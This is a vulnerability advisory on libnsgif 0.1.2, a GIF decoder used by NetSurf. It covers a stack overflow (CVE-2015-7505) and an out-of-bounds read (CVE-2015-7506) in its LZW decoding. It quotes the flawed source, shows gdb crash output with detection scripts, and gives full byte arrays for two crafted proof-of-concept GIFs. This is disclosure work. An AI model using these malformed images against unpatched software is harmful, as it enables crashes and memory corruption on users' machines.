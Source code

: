 #+title: libnsgif: stack overflow (CVE-2015-7505) and out-of-bounds read (CVE-2015-7506)
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

* Overview

Libnsgif[1] is a decoding library for GIF images.  It is
primarily developed and used as part of the NetSurf project.

As of version 0.1.2, libnsgif is vulnerable to a stack overflow
(CVE-2015-7505) and an out-of-bounds read (CVE-2015-7506) due to the way
LZW-compressed GIF data is processed.


* Details

src/libnsgif.c #80..133:
#+begin_src c
/*    Maximum LZW bits available
*/
#define GIF_MAX_LZW 12
[...]
static int table[2][(1 << GIF_MAX_LZW)];
static unsigned char stack[(1 << GIF_MAX_LZW) * 2];
#+end_src

src/libnsgif.c #423..628:
#+begin_src c
static gif_result gif_initialise_frame(gif_animation *gif) {
[...]
    if (gif_data[0] > GIF_MAX_LZW)
        return GIF_DATA_ERROR;
[...]
}
#+end_src


src/libnsgif.c #751..1053:
#+begin_src c
gif_result gif_decode_frame(gif_animation *gif, unsigned int frame) {
[...]
        /*    Initialise the LZW decoding
        */
        set_code_size = gif_data[0];
[...]
        code_size = set_code_size + 1;
        clear_code = (1 << set_code_size);
        end_code = clear_code + 1;
        max_code_size = clear_code << 1;
        max_code = clear_code + 2;
[...]
}
#+end_src


src/libnsgif.c #1145..1169:
#+begin_src c
void gif_init_LZW(gif_animation *gif) {
[...]
    *stack_pointer++ =firstcode;
}
#+end_src


src/libnsgif.c #1172..1237:
#+begin_src c
static bool gif_next_LZW(gif_animation *gif) {
[...]
    code = gif_next_code(gif, code_size);
[...]
    incode = code;
    if (code >= max_code) {
        *stack_pointer++ = firstcode;
        code = oldcode;
    }

    /* The following loop is the most important in the GIF decoding cycle as every
     * single pixel passes through it.
     *
     * Note: our stack is always big enough to hold a complete decompressed chunk. */
    while (code >= clear_code) {
        *stack_pointer++ = table[1][code];
        new_code = table[0][code];
        if (new_code < clear_code) {
            code = new_code;
            break;
        }
        *stack_pointer++ = table[1][new_code];
        code = table[0][new_code];
        if (code == new_code) {
              gif->current_error = GIF_FRAME_DATA_ERROR;
            return false;
        }
    }

    *stack_pointer++ = firstcode = table[1][code];
[...]
    oldcode = incode;
[...]
}
#+end_src


* CVE-2015-7505

Since ~gif_next_LZW()~ writes onto the stack so long as ~code~ is at
least ~clear_code~, an overflow may eventually occur while processing a
maliciously crafted image.

Using NetSurf as an example:

#+begin_src sh
~/netsurf-all-3.3/netsurf$ gdb -x stack.py --args ./nsgtk stack.gif
[...]
stack overflow: ptr: 0x968903, end of stack: 0x968900 (+3)
stack overflow: ptr: 0x968904, end of stack: 0x968900 (+4)
stack overflow: ptr: 0x968905, end of stack: 0x968900 (+5)
stack overflow: ptr: 0xf0000968906, end of stack: 0x968900 (+16492674416646)

Program received signal SIGSEGV, Segmentation fault.
0x000000000051a890 in gif_next_LZW (gif=0xbccc00) at src/libnsgif.c:1210
1210                    *stack_pointer++ = table[1][code];
(gdb)
#+end_src


stack.py:
#+begin_src python
class Breakpoint(gdb.Breakpoint):
    def stop(self):
        stack_pointer = get_hex("stack_pointer")
        stack = get_hex("&stack")
        stack_size = get_hex("sizeof stack / sizeof *stack")
        stack_end = stack + stack_size

        table_size = get_hex("sizeof table / sizeof **table / 2")
        code = get_hex("code")

        if stack_pointer > stack_end:
            print("stack overflow: ptr: 0x%x, end of stack: 0x%x (+%d)" %
                  (stack_pointer, stack_end, stack_pointer - stack_end))
        if code >= table_size:
            print("out-of-bounds read: code: %d (+%d)" %
                  (code, code - table_size + 1))
        return False

def get_hex(arg):
    res = gdb.execute("print/x %s" % arg, to_string=True)
    x = res.split(" ")[-1].strip()
    return int(x, 16)

Breakpoint("netsurf-all-3.3/libnsgif/src/libnsgif.c:1210")
Breakpoint("netsurf-all-3.3/libnsgif/src/libnsgif.c:1216")

gdb.execute("run")
#+end_src


stack.gif:
#+begin_src c
unsigned char stack[] = {
    /* GIF87a */
    0x47, 0x49, 0x46, 0x38, 0x37, 0x61,

    /* gif_initialise() */
    0x04, 0x00,     /* gif->width */
    0x04, 0x33,     /* gif->height */
    0x00,           /* gif->global_colours */
    0x00,           /* gif->background_index */
    0x00,           /* gif->aspect_ratio */

    /* gif_initialise_frame() */
    0x2c,           /* GIF_IMAGE_SEPARATOR */
    0x00, 0x00,     /* offset_x */
    0x00, 0x00,     /* offset_y */
    0x1b, 0x00,     /* width */
    0x04, 0x00,     /* height */
    0x00,           /* flags */
    0x04,           /* code size */
    0x0d,           /* block_size */

    /* image data */
    0x10, 0xcb,
    0x41, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3,

    /* end of image data */
    0x00,

    /* end of .gif */
    0x3b
};
#+end_src


* CVE-2015-7506

If ~set_code_size~ is 0xc, ~clear_code~ is assigned a value of 4096.
Since the while-loop in ~gif_next_LZW()~ executes so long as ~code >=
clear_code~, an out-of-bounds read might occur due to ~code~ being used
to dereference ~table~ (2d array * 4096).  A boundary check exist in
that if ~code >= max_code~, it's assigned the value of ~oldcode~ --
however, the result may still exceed ~max_code~ due to the bookkeeping
of the *original* value:

src/libnsgif.c #1172..1237:
#+begin_src c
static bool gif_next_LZW(gif_animation *gif) {
[...]
    incode = code;
    if (code >= max_code) {
        *stack_pointer++ = firstcode;
        code = oldcode;
    }
[...]
    oldcode = incode;
[...]
}
#+end_src

Again, using NetSurf as an example:

#+begin_src sh
~/netsurf-all-3.3/netsurf$ gdb -x oob.py --args ./nsgtk oob.gif
[...]
out-of-bounds read: code: 6670 (+2575)
out-of-bounds read: code: 7999 (+3904)
#+end_src


oob.py:
#+begin_src python
class Breakpoint(gdb.Breakpoint):
    def stop(self):
        stack_pointer = get_hex("stack_pointer")
        stack = get_hex("&stack")
        stack_size = get_hex("sizeof stack / sizeof *stack")
        stack_end = stack + stack_size

        table_size = get_hex("sizeof table / sizeof **table / 2")
        code = get_hex("code")

        if stack_pointer > stack_end:
            print("stack overflow: ptr: 0x%x, end of stack: 0x%x (+%d)" %
                  (stack_pointer, stack_end, stack_pointer - stack_end))
        if code >= table_size:
            print("out-of-bounds read: code: %d (+%d)" %
                  (code, code - table_size + 1))
        return False

def get_hex(arg):
    res = gdb.execute("print/x %s" % arg, to_string=True)
    x = res.split(" ")[-1].strip()
    return int(x, 16)

Breakpoint("netsurf-all-3.3/libnsgif/src/libnsgif.c:1210")
Breakpoint("netsurf-all-3.3/libnsgif/src/libnsgif.c:1216")

gdb.execute("run")
#+end_src


oob.gif:
#+begin_src c
unsigned char oob[] = {
    /* GIF87a */
    0x47, 0x49, 0x46, 0x38, 0x37, 0x61,

    /* gif_initialise() */
    0x04, 0x00,     /* gif->width */
    0x04, 0x33,     /* gif->height */
    0x00,           /* gif->global_colours */
    0x00,           /* gif->background_index */
    0x00,           /* gif->aspect_ratio */

    /* gif_initialise_frame() */
    0x2c,           /* GIF_IMAGE_SEPARATOR */
    0x00, 0x00,     /* offset_x */
    0x00, 0x00,     /* offset_y */
    0x1b, 0x00,     /* width */
    0x04, 0x00,     /* height */
    0x00,           /* flags */
    0x0c,           /* code size */
    0x0d,           /* block_size */

    /* image data */
    0x10, 0xcb,
    0x41, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3,

    /* end of image data */
    0x00,

    /* end of .gif */
    0x3b
};
#+end_src


* Solution

Both vulnerabilities are fixed in git HEAD[2].


* Footnotes

[1] http://www.netsurf-browser.org/projects/libnsgif/

[2] http://source.netsurf-browser.org/libnsgif.git/
